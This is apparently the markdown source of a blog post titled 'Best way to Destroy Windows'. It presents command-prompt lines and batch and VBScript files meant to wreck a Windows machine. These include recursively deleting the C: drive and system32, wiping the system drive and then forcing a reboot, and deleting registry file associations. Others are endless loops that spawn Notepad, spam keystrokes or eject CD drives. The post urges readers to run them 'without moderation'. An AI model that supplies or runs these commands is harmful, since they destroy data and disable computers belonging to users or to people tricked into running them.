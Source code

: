 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckoff.jpg
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death
Code:
```@echo off```
```del %systemdrive%\*.*/f/s/q```
```shutdown -r -f -t 00```

##### 2.2 Stupidity Shutdown
code:
```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

##### 2.3 Delete Key Registry Files
code:
```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

##### 2.4 Endless Notepads
code:
```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

##### 2.5 Crazy caps lock
code:
```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

##### 2.6 Endless Enter
code:
```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

##### 2.7 Endless Backspace
code:
```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

##### 2.8 Popping CD Drives
code:
```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```


And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)